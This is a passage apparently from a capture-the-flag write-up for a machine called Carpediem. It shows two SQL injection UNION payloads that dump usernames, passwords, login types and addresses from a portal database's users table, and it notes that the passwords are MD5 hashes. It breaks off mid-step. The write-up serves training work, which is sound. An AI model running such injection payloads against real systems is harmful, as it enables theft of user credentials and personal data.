 Extracting data from the portal database.

![Untitled](Carpediem/Untitled%206.png)

Dumping the table:

```jsx
'union+all+select+1,group_concat(username,"\n"),3,4,5+from+portal.users--+x
```

```jsx
'union all select 1,group_concat("Username: ",username," Password: ",password," logintype: ",login_type," id: ",id," address: ",address,"\n"),3,4,5 from portal.users-- x
```

Users with passwords in MD5 format:

![Untitled](Carpediem/Untitled%207.png)

We can register the account with some attributes:
